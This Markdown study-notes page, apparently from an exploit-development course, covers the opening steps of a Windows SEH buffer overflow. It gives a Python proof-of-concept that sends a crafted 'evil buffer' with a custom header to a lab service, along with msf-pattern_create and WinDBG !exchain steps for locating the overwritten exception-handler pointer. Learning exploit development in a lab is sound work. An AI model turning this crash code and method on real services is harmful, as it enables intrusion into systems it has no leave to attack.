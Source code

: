 ```yaml
---
title: SEH Buffer Overflow
parent: Windows x86
layout: default
nav_order: 2
---
```


1. First have a PoC ready. Should look like below. This might overwrite a pointer but not EIP directly. Open WinDBG and attach to the process. Run the code on Kali.

    ```
    #!/usr/bin/python
    import socket
    import sys
    from struct import pack

    try:
    server = "192.168.199.137"
    port = 9121
    size = 1000

    inputBuffer = b"\x41" * size

    header =  b"\x75\x19\xba\xab"
    header += b"\x03\x00\x00\x00"
    header += b"\x00\x40\x00\x00"
    header += pack('<I', len(inputBuffer))
    header += pack('<I', len(inputBuffer))
    header += pack('<I', inputBuffer[-1])

    buf = header + inputBuffer 

    print("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buf)
    s.close()
    
    print("Done!")
    
    except socket.error:
    print("Could not connect!")
    ```

2. Run `msf-pattern_create -l 1000` where 1000 should be longer or same than the crash length to identify where it crash. Comment the previous inputBuffer in the Python PoC and use this instead. Send.
3. When it crashes, run `!exchain`. Refer to the example below, and in this case the overwritten pointer is `33654132`:

    ```
    0155fe1c: libpal!md5_starts+149fb (005fdf5b)
    0155ff54: 33654132
    Invalid exception stack at 65413165
    ```
